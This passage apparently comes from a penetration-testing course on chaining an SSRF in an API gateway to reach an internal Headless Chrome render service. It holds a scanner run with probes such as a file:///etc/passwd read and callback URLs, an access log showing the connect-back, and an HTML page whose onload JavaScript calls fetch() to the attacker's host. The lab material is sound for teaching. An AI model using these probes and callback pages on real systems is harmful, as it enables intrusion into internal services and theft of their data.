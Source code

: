 kali@kali:~$ ./ssrf_path_scanner.py -t http://apigateway:8000/files/import -s http://172.16.16.5:9000/api/render -p paths2.txt --timeout 5
?data=foobar     {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
?file=file:///etc/passwd         {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
?url=http://192.168.118.3/render/url    OPEN - returned permission error, therefore valid resource
?input=foobar    {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
?target=http://192.168.118.3/render/target      {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
Listing 41 - Running enumeration with paths2.txt

It seems the url parameter was a valid request based on the permission error message. Let's check if it actually connected back to our Kali host.

kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.120.135 - - [25/Feb/2021:12:09:35 -0500] "GET /render/url HTTP/1.1" 404 492 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
Listing 42 - Apache access.log contents

Not only did we receive a request from the render service, Headless Chrome2 made the request.

Exercises
Using the scripts created so far as a base, create the SSRF path scanner script.
Run the script as detailed in this section and verify the render service can connect back to your Kali VM.
1
(Daniel Miessler, et al, 2017),https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt ↩︎

2
(Google, 2021), https://developers.google.com/web/updates/2017/04/headless-chrome ↩︎

##### Exploiting Headless Chrome
When we exploited the SSRF in the Directus Files API, the user agent was axios. Now that we can call the Render API through the SSRF vulnerability, we can make an instance of Headless Chrome access a URL of our choice. Initially, this might seem like another SSRF vulnerability but Headless Chrome is essentially a full browser without a UI. The headless browser should still execute any JavaScript functions as it loads a web page. If it does, we have the ability to run arbitrary JavaScript from the browser that is running on the remote server, which would give us the ability to extract data from other internal pages or services, send POST requests, and interact with the other internal resources in many different ways.

Before we get ahead of ourselves, let's verify the headless browser will execute JavaScript. We will create a simple HTML page with a JavaScript function that runs on page load.

<html>
<head>
<script>
function runscript() {
    fetch("http://192.168.118.3/itworked");
}
</script>
</head>
<body onload='runscript()'>
<div></div>
</body>
</html>
Listing 43 - Contents of hello.html
